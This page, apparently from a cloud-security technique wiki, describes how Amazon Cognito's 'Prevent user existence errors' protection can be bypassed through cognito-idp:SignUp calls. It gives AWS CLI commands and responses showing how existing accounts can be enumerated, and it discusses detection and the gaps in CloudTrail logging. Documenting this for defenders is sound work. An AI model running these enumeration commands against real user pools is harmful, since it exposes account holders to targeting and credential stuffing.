 ```yaml
---
author_name: Nick Frichette
title: Bypass Cognito Account Enumeration Controls
description: Leverage a flaw in Cognito's API to enumerate accounts in User Pools.
---
```


<div class="grid cards" markdown>
-   :material-book:{ .lg .middle } __Additional Resources__

    ---

    AWS Docs: [Managing user existence error responses](https://docs.aws.amazon.com/cognito/latest/developerguide/cognito-user-pool-managing-errors.html)
</div>

Amazon [Cognito](https://aws.amazon.com/cognito/) is a popular “sign-in as a service” offering from AWS. It allows developers to push the responsibility of developing authentication, sign up, and secure credential storage to AWS so they can instead focus on building their app.

By default, Cognito will set a configuration called `Prevent user existence errors`. This is designed to prevent adversaries from [enumerating accounts](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/03-Identity_Management_Testing/04-Testing_for_Account_Enumeration_and_Guessable_User_Account) and using that information for further attacks, such as [credential stuffing](https://owasp.org/www-community/attacks/Credential_stuffing).

While this is useful in theory, and a good default to have, it can be bypassed via [cognito-idp:SignUp](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/cognito-idp/sign-up.html) calls. This bypass was originally reported via a GitHub [issue](https://github.com/aws-amplify/amplify-js/issues/6238) in July 2020 and Cognito is still vulnerable as of early 2024.

## Example Responses

To demonstrate the responses depending on the configuration and if a user does/does not exist, here are some examples. The `admin` user exists in the user pool and is the account we will be trying to enumerate.

!!! Note
	The `client-id` value for a Cognito User Pool is not secret and is accessible from the JavaScript served by the client. 

### Prevent user existence errors on and user exists

```shell
$ aws cognito-idp initiate-auth \
--auth-flow USER_PASSWORD_AUTH \
--client-id 719… \
--auth-parameters USERNAME=admin,PASSWORD=blah

An error occurred (NotAuthorizedException) when calling the InitiateAuth operation: Incorrect username or password.
```

### Prevent user existence errors on and user does not exist

```shell
$ aws cognito-idp initiate-auth \
--auth-flow USER_PASSWORD_AUTH \
--client-id 719… \
--auth-parameters USERNAME=notreal,PASSWORD=blah

An error occurred (NotAuthorizedException) when calling the InitiateAuth operation: Incorrect username or password.
```

### Prevent user existence errors off and user exists

```shell
$ aws cognito-idp initiate-auth \
--auth-flow USER_PASSWORD_AUTH \
--client-id 719… \
--auth-parameters USERNAME=admin,PASSWORD=blah

An error occurred (NotAuthorizedException) when calling the InitiateAuth operation: Incorrect username or password.
```

### Prevent user existence errors off and user does not exist

```shell
$ aws cognito-idp initiate-auth \
--auth-flow USER_PASSWORD_AUTH \
--client-id 719… \
--auth-parameters USERNAME=notreal,PASSWORD=blah

An error occurred (UserNotFoundException) when calling the InitiateAuth operation: User does not exist.
```

As you can see, an adversary can use the `UserNotFoundException` and `NotAuthorizedException` to enumerate whether an account does or does not exist. By enabling the `Prevent user existence errors` configuration, defenders can successfully mitigate these types of attacks. However we will show how it can be bypassed.

## cognito-idp:SignUp

The `Prevent user existence errors` configuration appears to only impact the `initiate-auth` flow. It does not impact [cognito-idp:SignUp](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/cognito-idp/sign-up.html). Because of this we can use this API call to enumerate if a user does or does not exist. Please see the following examples:

### Prevent user existence errors on and user exists

```shell
$ aws cognito-idp sign-up \
--client-id 719... \
--username admin \
--password "BlahBlah123!" \
--user-attributes Name=email,Value="blah@blah.net"

An error occurred (UsernameExistsException) when calling the SignUp operation: User already exists
```

### Prevent user existence errors on and user does not exist

```shell
$ aws cognito-idp sign-up \
--client-id 719... \
--username notreal \
--password "BlahBlah123!" \
--user-attributes Name=email,Value="blah@blah.net"
{
	"UserConfirmed": false,
	"CodeDeliveryDetails": {
    	"Destination": "b***@b***",
    	"DeliveryMedium": "EMAIL",
    	"AttributeName": "email"
	},
	"UserSub": "a20…"
}
```

## Detection Opportunities

If an adversary is using this technique at scale to identify what accounts exist in your user pool, you can attempt to detect this behavior by alerting on a sudden increase in `Unconfirmed` user accounts.

![User Pool Identities](../../images/aws/enumeration/bypass_cognito_user_enumeration_controls/user_pool_identities.png)

Depending on the configuration of your user pool, an adversary could attempt to get around this by using a real email address to confirm the user name.

### CloudTrail and CloudWatch Limitations

If you attempt to build detections around this using CloudTrail or CloudWatch, you will run into challenges. This is because a significant portion of useful telemetry (basically all of it) is omitted in these logs. For example, the `userIdentity` who made the API call is `Anonymous`

```json
{
	"eventVersion": "1.08",
	"userIdentity": {
    	"type": "Unknown",
    	"principalId": "Anonymous"
}
```

And the `username` and `userAttributes` are hidden:

```json
"requestParameters": {
    "clientId": "719...",
    "username": "HIDDEN_DUE_TO_SECURITY_REASONS",
    "password": "HIDDEN_DUE_TO_SECURITY_REASONS",
    "userAttributes": "HIDDEN_DUE_TO_SECURITY_REASONS"
}
```

For this reason, you can use CloudTrail or CloudWatch to track the number of [cognito-idp:SignUp](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/cognito-idp/sign-up.html) calls, and their associated `sourceIPAddress`, but not access their details. 
